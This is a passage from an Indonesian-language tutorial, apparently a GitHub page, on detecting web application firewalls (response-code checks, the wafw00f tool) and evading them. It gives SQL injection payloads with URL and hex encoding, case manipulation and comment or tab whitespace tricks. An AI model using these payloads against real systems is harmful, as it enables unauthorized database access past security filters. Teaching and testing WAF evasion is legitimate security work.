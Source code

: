 - **Cek Response Code** - Jika permintaan normal mendapatkan HTTP 200 tetapi payload berbahaya mendapatkan HTTP 403, maka ada kemungkinan WAF aktif.

### 🔹 2. Active Detection  
- **Menggunakan WAFW00F** - Tool otomatis untuk mendeteksi WAF:
  ```bash
  wafw00f https://target.com
  ```

- **Brute Force Bypass** - Mencoba berbagai payload umum untuk melihat apakah ada yang lolos.

---

## 🎭 Teknik Dasar Bypass WAF

### 🔸 1. Bypass dengan Encoding
Menggunakan encoding seperti URL encoding, Base64, atau Hex untuk menyamarkan payload.

- **Contoh SQL Injection tanpa encoding:**
  ```sql
  ' OR 1=1 --
  ```

- **Contoh dengan URL encoding:**
  ```sql
  %27%20OR%201%3D1%20--
  ```

- **Contoh dengan Hex encoding:**
  ```sql
  0x27204F5220313D31202D2D
  ```

### 🔸 2. Bypass dengan Case Manipulation
WAF yang lemah mungkin hanya mendeteksi kata kunci dalam huruf kecil.

- **Payload Standar:**
  ```sql
  SELECT * FROM users WHERE username='admin' --
  ```

- **Bypass dengan kapitalisasi acak:**
  ```sql
  SeLeCt * FrOm users WhErE username='admin' --
  ```

### 🔸 3. Bypass dengan White Spaces Alternatif
Menggunakan karakter tak terlihat seperti tab (`	`), newline (`
`), atau komentar SQL.

- **Contoh menggunakan komentar SQL:**
  ```sql
  SELECT/*bypass*/username,password FROM users WHERE username='admin'
  ```

- **Contoh menggunakan tab:**
  ```sql
  SELECT	username,password	FROM users WHERE username='admin'
  ```

---